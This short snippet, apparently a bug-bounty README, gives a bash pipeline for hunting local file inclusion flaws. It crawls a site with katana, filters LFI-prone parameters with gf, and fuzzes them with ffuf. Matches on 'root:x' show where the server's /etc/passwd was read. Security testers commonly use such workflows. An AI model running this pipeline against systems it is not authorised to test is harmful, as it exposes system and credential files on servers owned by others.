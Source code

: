 # How to Hunt for LFI Vulnerabilities

```bash 
echo "example.com" | katana -o katana.txt

cat katana.txt | sort -u | urldedupe > urls.txt

cat urls.txt | gf lfi | qsreplace FUZZ > lfi.txt

cat lfi.txt | while read url; do ffuf -u $url -w payloads.txt -mr "root:x"; done

```




